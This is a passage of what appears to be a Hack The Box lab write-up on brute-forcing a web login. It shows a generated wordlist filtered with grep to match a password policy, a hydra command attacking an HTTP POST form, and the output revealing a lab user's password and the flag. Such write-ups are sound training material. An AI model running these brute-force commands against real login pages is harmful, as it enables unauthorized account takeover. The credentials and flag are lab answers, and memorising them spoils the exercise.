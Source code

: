 ```
[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

Due to the policies of AHI, we need to filter our wordlist in the following way:

```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```


Nice, once we got everything set, let's launch the attack using hydra:

```
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials" -t 60
```

We get this output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:55:43
[DATA] max 60 tasks per 1 server, overall 60 tasks, 111286 login tries (l:14/p:7949), ~1855 tries per task
[DATA] attacking http-post-form://94.237.56.165:46400/:username=^USER^&password=^PASS^:Invalid credentials
[46400][http-post-form] host: 94.237.56.165 login: jane password: 3n4J!!
[STATUS] attack finished for 94.237.56.165 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Got credentials:

```ad-note

`jane`:`3n4J!!`
```

Let's log in:

![Pasted image 20250213155724.png](../../../IMAGES/Pasted%20image%2020250213155724.png)

Got the flag:

```
HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}
```

